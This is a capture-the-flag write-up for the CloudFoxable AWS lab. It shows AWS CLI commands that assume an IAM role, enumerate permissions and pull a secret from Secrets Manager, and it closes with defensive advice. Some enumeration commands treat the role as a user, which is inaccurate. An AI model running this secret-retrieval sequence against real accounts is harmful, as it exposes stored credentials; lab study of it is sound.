 # CloudFoxable Challenge: "It's Another Secret"

## Overview

This write-up documents the steps taken to complete the "It's Another Secret" challenge as part of the CloudFoxable Lab. The objective of this challenge was to:

Assume the Ertz IAM role to simulate a privilege escalation scenario.
Enumerate AWS permissions and resources available to the assumed role.
Identify and retrieve the its-another-secret flag stored in AWS Secrets Manager.
Understand IAM role-based access control (RBAC) and privilege escalation risks in AWS.

## Challenge Setup

### Prerequisites
Before starting the challenge, the following tools and configurations were required:

AWS CLI installed and configured with the cloudfoxable profile.
CloudFox installed and properly set up for enumeration.
Go environment installed (for building and running CloudFox).
IAM credentials that allow assuming the Ertz role.

### CloudFoxable Deployment
Since the challenge environment was already deployed, no additional Terraform provisioning was required. However, if redeployment was necessary, the following command would apply the required infrastructure:

terraform apply

## Challenge Walkthrough

### Step 1: Assuming the Ertz Role
To avoid manually exporting credentials, I added the following configuration to ~/.aws/config:

[profile ertz]
region = us-west-2
role_arn = arn:aws:iam::ACCOUNT_ID:role/Ertz
source_profile = cloudfoxable
Then, I verified the role assumption:

aws --profile ertz sts get-caller-identity
This confirmed that I had successfully assumed the Ertz role:

{
    "UserId": " ",
    "Account": " ",
    "Arn": " "
}

### Step 2: Enumerating Permissions
Once I had assumed the role, I needed to determine what actions I could perform. I started by listing attached policies:

aws --profile ertz iam list-attached-user-policies --user-name Ertz
Since permissions might have been assigned through a group, I also checked for group-based policies:

aws --profile ertz iam list-groups-for-user --user-name Ertz
aws --profile ertz iam list-group-policies --group-name <group-name>
From the results, I found that Ertz had Secrets Manager permissions, which indicated that the flag might be stored there.

### Step 3: Searching for the Flag
Since the challenge name included "Secret", I focused on AWS Secrets Manager.

I listed all available secrets:

aws --profile ertz secretsmanager list-secrets
The output revealed a secret named its-another-secret:

{
    "Name": "its-another-secret",
    "Arn": "arn:aws:secretsmanager:us-west-2:ACCOUNT_ID:secret:its-another-secret"
}

### Step 4: Retrieving the Secret
To retrieve the flag, I used:

aws --profile ertz secretsmanager get-secret-value --secret-id its-another-secret
This returned:

{
    "SecretString": "FLAG{this_is_the_secret_flag}"
}
Flag retrieved: FLAG{this_is_the_secret_flag}

## Challenges Faced

1. Incorrect IAM Role Assumption
Initially, I mistyped the ACCOUNT_ID, which resulted in an assume-role failure.
Fixed by ensuring the correct role ARN was used.
2. Permission Denied on AWS CLI Commands
Some IAM and S3 enumeration commands returned AccessDenied errors.
Solved by checking ertz's permissions and focusing only on accessible services like Secrets Manager.
3. Identifying the Location of the Secret
The flag could have been in S3, SSM Parameter Store, or Secrets Manager.
By analyzing permissions, I found that Secrets Manager was accessible, which led me to the correct location.

## Blue Team Perspective: Defensive Measures

From a defensive security standpoint, organizations should implement the following best practices to prevent unauthorized access to secrets:

Principle of Least Privilege (PoLP): Restrict IAM roles to the minimum permissions necessary.
CloudTrail Logging: Enable detailed logging for AWS Secrets Manager access.
Secret Rotation: Regularly rotate secrets to minimize exposure risks.
IAM Role Restrictions: Limit role assumptions to trusted users and enforce MFA.

## Conclusion

This challenge provided hands-on experience with AWS privilege escalation, resource enumeration, and secrets retrieval.

Key takeaways:
Understanding AWS IAM role assumptions
Privilege escalation techniques using assumed roles
AWS resource enumeration using AWS CLI and CloudFox
Extracting sensitive secrets from AWS Secrets Manager

This exercise demonstrated the importance of IAM role security and proper access control in AWS environments.

## Commands Used

Verify AWS Profile
aws --profile cloudfoxable sts get-caller-identity
Assume the Ertz Role
aws --profile cloudfoxable sts assume-role --role-arn arn:aws:iam::ACCOUNT_ID:role/Ertz --role-session-name Ertz
List Available Secrets
aws --profile ertz secretsmanager list-secrets
Retrieve the Secret
aws --profile ertz secretsmanager get-secret-value --secret-id its-another-secret

